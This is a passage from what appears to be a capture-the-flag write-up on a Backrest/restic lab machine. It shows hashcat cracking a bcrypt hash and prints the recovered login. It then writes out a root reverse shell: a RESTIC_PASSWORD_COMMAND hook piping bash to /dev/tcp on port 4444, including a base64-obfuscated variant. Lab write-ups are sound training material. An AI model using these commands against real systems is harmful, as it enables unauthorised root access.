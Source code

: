 We got a `bcrypt` password but it's initially encoded on base64, we need to use hashcat to crack it:

```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > hash.txt

hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

Nice, we got credentials for the web page:

```
backrest_root:!@#$%^
```

![](cybersecurity/images/Pasted%2520image%252020250628151732.png)


As seen, we can make repositories:

![](cybersecurity/images/Pasted%2520image%252020250628152029.png)

This manages something called `restic`, we can go with two `privilege escalation paths` on here, first, we can exploit the `restic` privesc shown on `gtfobins`:

GTFOBINS: https://gtfobins.github.io/gtfobins/restic/

Or we can speed up the process by creating a malicious hook that will get us a shell as root, as seen on the image, we can create hooks which will execute as commands:


![](cybersecurity/images/Pasted%2520image%252020250628152257.png)


Let's create a base repository which will include the following hook and `ENV Var`;

Env vars should be:

```
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'
```

And the hook, should be this:

```
# First we need to base64 this command:

echo "bash -i >& /dev/tcp/10.10.14.180/4444 0>&1" | base64

# Save the base64 string and do:

RESTIC_PASSWORD_COMMAND=echo '<base64>' | base64 -d | bash
```

The repo should look like this:

![](cybersecurity/images/Pasted%2520image%252020250628152715.png)
